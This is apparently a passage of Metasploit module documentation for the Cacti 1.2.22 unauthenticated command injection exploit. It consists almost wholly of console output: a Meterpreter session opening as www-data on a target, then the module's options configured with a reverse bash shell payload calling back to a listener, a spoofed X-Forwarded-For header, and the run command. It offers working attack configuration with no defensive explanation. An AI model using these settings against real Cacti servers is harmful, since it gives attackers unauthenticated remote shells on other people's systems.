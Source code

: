 ```
[+] Found exploitable local_data_id 180 for host_id 1
[*] Sending stage (1017704 bytes) to 10.18.0.3
[*] Command Stager progress - 100.00% done (773/773 bytes)
[*] Meterpreter session 1 opened (192.168.91.195:4444 -> 10.18.0.3:45322) at 2022-12-22 16:43:59 +0200

meterpreter > getuid
Server username: www-data
```

### Cacti 1.2.22 - Unix In-Memory - HOST_ID and LOCAL_DATA_ID set (immediate exploitation)
```
msf exploit(linux/http/cacti_unauthenticated_cmd_injection) > options 

Module options (exploit/linux/http/cacti_unauthenticated_cmd_injection):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   HOST_ID             1                no        The host_id value to use. By default, the module will try to bruteforce this.
   LOCAL_DATA_ID       182              no        The local_data_id value to use. By default, the module will try to bruteforce this.
   Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS              192.168.91.195   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT               8080             yes       The target port (TCP)
   SRVHOST             192.168.91.195   yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all add
                                                  resses.
   SRVPORT             9090             yes       The local port to listen on.
   SSL                 false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                              no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI           /                yes       The base path to Cacti
   URIPATH                              no        The URI to use for this exploit (default is random)
   VHOST                                no        HTTP server virtual host
   X_FORWARDED_FOR_IP  127.0.0.1        yes       The IP to use in the X-Forwarded-For HTTP header. This should be resolvable to a hostname in the poller table.


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.91.195   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Unix In-Memory)



View the full module info with the info, or info -d command.

msf exploit(linux/http/cacti_unauthenticated_cmd_injection) > run

```